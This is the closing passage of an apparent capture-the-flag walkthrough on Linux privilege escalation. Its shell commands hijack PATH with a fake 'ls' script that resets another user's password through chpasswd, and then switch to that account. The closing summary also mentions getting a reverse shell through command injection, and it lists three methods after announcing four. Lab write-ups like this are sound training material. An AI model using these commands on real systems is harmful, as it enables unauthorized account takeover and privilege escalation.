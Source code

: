 ![](https://cdn.ziomsec.com/escalate_linux/26.webp)

```shell
echo '#!/bin/bash' > ls
echo 'echo "user7:PASSWORD" | chpasswd' >> ls
chmod +x ls
export PATH=/tmp:$PATH
/user/user5/script
```

![](https://cdn.ziomsec.com/escalate_linux/27.webp)

Finally, I switched user and got privileged access.

```shell
su user7
# enter new PASSWORD
```

![](https://cdn.ziomsec.com/escalate_linux/28.webp)

# Closure

Getting initial access on the system was fairly simple; I just used the command injection vulnerability to get a reverse shell. As for the privilege escalation, I demonstrated 4 methods:
1. Exploiting uncommon SUID bit
2. Cracking root password
3. Misconfigured users

That's it from my side :)
Happy Hacking!

---